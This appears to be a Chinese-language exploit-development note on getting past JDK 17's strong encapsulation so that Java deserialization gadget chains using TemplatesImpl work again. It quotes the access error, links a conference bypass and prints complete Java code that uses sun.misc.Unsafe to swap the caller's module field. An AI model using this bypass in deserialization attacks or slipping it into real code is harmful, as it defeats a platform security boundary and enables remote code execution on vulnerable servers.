 # jdk17 bypass module

https://www.bennyhuo.com/2021/10/02/Java17-Updates-06-internals/

https://github.com/BeichenDream/Kcon2021Code/blob/master/bypassJdk/JdkSecurityBypass.java

在jdk17使用反序列化的时候发现要报错

```
InvokerTransformer: The method 'newTransformer' on 'class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl' cannot be accessed
```

![image-20221220230825845](img/image-20221220230825845.png)

限制了

![image-20221220233047039](img/image-20221220233047039.png)

限制了的类https://cr.openjdk.java.net/~mr/jigsaw/jdk8-packages-strongly-encapsulated

## 需要bypass

```
按照提案的说明，被严格限制的这些内部 API 包括：
        
java.* 包下面的部分非 public 类、方法、属性，例如 Classloader 当中的 defineClass 等等。
sun.* 下的所有类及其成员都是内部 API。
绝大多数 com.sun.* 、 jdk.* 、org.* 包下面的类及其成员也是内部 API。
```

**code**

```java

import sun.misc.Unsafe;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.ArrayList;

/**
 * https://cr.openjdk.java.net/~mr/jigsaw/jdk8-packages-strongly-encapsulated
 */
public class BypassModule {
    public static void main(String[] args) throws Exception {
        final ArrayList<Class> classes = new ArrayList<>();
        classes.add(Class.forName("java.lang.reflect.Field"));
        classes.add(Class.forName("java.lang.reflect.Method"));
        Class aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        classes.add(aClass);
        new BypassModule().bypassModule(classes);
        aClass.newInstance();
    }

    public void bypassModule(ArrayList<Class> classes){
        try {
            Unsafe unsafe = getUnsafe();
            Class currentClass = this.getClass();
            try {
                Method getModuleMethod = getMethod(Class.class, "getModule", new Class[0]);
                if (getModuleMethod != null) {
                    for (Class aClass : classes) {
                        Object targetModule = getModuleMethod.invoke(aClass, new Object[]{});
                        unsafe.getAndSetObject(currentClass, unsafe.objectFieldOffset(Class.class.getDeclaredField("module")), targetModule);
                    }
                }
            }catch (Exception e) {
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    private static Method getMethod(Class clazz,String methodName,Class[] params) {
        Method method = null;
        while (clazz!=null){
            try {
                method = clazz.getDeclaredMethod(methodName,params);
                break;
            }catch (NoSuchMethodException e){
                clazz = clazz.getSuperclass();
            }
        }
        return method;
    }

    private static Unsafe getUnsafe() {
        Unsafe unsafe = null;
        try {
            Field field = Unsafe.class.getDeclaredField("theUnsafe");
            field.setAccessible(true);
            unsafe = (Unsafe) field.get(null);
        } catch (Exception e) {
            throw new AssertionError(e);
        }
        return unsafe;
    }
}
```

